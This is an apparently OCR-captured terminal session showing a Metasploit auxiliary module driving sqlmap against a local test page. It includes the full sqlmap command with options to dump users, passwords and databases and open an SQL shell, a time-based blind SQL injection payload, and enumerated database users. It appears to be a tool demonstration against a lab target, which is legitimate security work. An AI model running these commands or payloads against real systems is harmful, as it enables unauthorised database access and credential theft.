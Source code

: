     [*] Done!

    Compatible payloads
    ===================

        Name  Description
        ----  -----------


    Use: set PAYLOAD <name>
    msf auxiliary(arachni_sqlmap) > show options    # Make sure that everything is setup properly

    Module options:

       Name         Current Setting                                         Required  Description
       ----         ---------------                                         --------  -----------
       COOKIES                                                              no
       GET          id=1                                                    no        HTTP GET query
       METHOD       GET                                                     yes       HTTP Method
       OPTS         --users --time-test --passwords --dbs --sql-shell -v 0  no        The sqlmap options to use
       PATH         /~zapotek/tests/links/sqli.php                          yes       The path to test for SQL injection
       POST                                                                 no        The data string to be sent through POST
       Proxies                                                              no        Use a proxy chain
       RHOST        127.0.0.1                                               yes       The target address
       RPORT        80                                                      yes       The target port
       SQLMAP_PATH  sqlmap                                                  yes       The sqlmap >= 0.8 full path
       VHOST                                                                no        HTTP server virtual host

    msf auxiliary(arachni_sqlmap) > set SQLMAP_PATH /home/zapotek/Downloads/sqlmap/sqlmap.py    # Tell the module where the sqlmap script is
    SQLMAP_PATH => /home/zapotek/Downloads/sqlmap/sqlmap.py
    msf auxiliary(arachni_sqlmap) > exploit     # rock it!

    [*] exec: /home/zapotek/Downloads/sqlmap/sqlmap.py -u 'http://127.0.0.1:80//~zapotek/tests/links/sqli.php?id=1' --method GET --users --time-test --passwords --dbs --sql-shell -v 0 --cookie ''

        sqlmap/0.8 - automatic SQL injection and database takeover tool
        http://sqlmap.sourceforge.net

    [*] starting at: 15:08:25

    [15:08:26] [WARNING] User-Agent parameter 'User-Agent' is not dynamic
    web server operating system: Linux Ubuntu
    web application technology: PHP 5.3.3, Apache 2.2.16
    back-end DBMS: MySQL >= 5.0.0

    time based blind sql injection payload:    'id=1%27%20AND%20SLEEP%285%29%20AND%20%27HXME%27=%27HXME'

    database management system users [5]:
    [*] 'debian-sys-maint'@'localhost'
    [*] 'phpmyadmin'@'localhost'
    [*] 'root'@'127.0.0.1'
    [*] 'root'@'localhost'
    [*] 'root'@'zonster'
